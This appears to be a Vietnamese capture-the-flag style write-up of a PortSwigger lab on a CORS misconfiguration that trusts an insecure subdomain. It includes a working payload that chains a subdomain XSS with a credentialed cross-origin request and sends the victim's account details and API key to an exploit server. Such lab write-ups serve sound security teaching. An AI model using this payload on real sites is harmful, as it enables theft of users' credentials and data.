


# Lab: CORS vulnerability with trusted insecure protocols

Truy cập `GET /accountDetails`, thấy có header:
```
Access-Control-Allow-Credentials: true
```
Tuy nhiên, khi thử với các biến thể của `Origin` thì đề khồng reflect. 

Nhận thấy rằng trang web có 1 subdomain, thử thay `Origin` bằng subdomain đó thì thấy reflect:


-> hướng tấn công hợp lý là thử tấn công từ subdomain đó xem có khai thác được lỗ hổng nào không.
Subdomain dính lỗ hổng XSS khi khi chèn payload và parameter tại URL:


Payload tấn công:
```javascript
<script> 
    document.location="http://stock.0abd00890419487880fb03f800bc00ef.web-security-academy.net/?productId=2<script> var req = new XMLHttpRequest(); req.open('get', 'https://0abd00890419487880fb03f800bc00ef.web-security-academy.net/accountDetails', true); req.onload = function() { location = 'https://exploit-0a4a00e90447483580a602d90196002e.exploit-server.net/?key='%2bthis.responseText }; req.withCredentials = true; req.send();%3c/script>&storeId=1" 
</script>
```

Deliver exploit to victim, sau đó truy cập log để lấy được API Key của victim.